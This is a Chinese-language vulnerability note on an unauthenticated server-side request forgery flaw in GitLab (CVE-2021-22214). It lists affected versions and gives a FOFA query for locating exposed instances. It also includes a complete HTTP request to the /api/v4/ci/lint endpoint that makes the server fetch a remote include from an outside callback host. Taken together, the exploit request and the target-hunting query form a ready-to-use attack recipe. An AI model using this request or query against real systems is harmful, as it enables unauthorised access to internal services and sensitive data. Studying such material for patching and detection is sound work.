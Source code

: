 # GitLab API未授权SSRF漏洞(CVE-2021-22214)

# 一、漏洞简介
GitLab存在前台未授权SSRF漏洞，未授权的攻击者也可以利用该漏洞执行SSRF攻击（CVE-2021-22214）。漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求

# 二、影响版本
13.10.5 > GitLab >= 10.5

13.11.5 > GitLab >= 13.11

13.12.2 > GitLab >= 13.12

# 三、资产测绘
+ fofa`app="GitLab"`
+ 特征

![1721111619268-5863c992-b306-41aa-bc6b-79164c134ed3.png](./img/YHP79yE5zWVjScmt/1721111619268-5863c992-b306-41aa-bc6b-79164c134ed3-435493.png)

# 四、漏洞复现
```http
POST /api/v4/ci/lint HTTP/1.1
Host: 
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 113


{"include_merged_yaml": true, "content": "include:\n  remote: http://ynuujrnegu.dgrh3.cn/api/v1/targets?test.yml"}
```

![1721111645089-c6026c90-8d00-4177-b710-4a3d1abcea1a.png](./img/YHP79yE5zWVjScmt/1721111645089-c6026c90-8d00-4177-b710-4a3d1abcea1a-842840.png)



> 更新: 2024-09-05 23:24:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/thghq5r9qu36rl0l>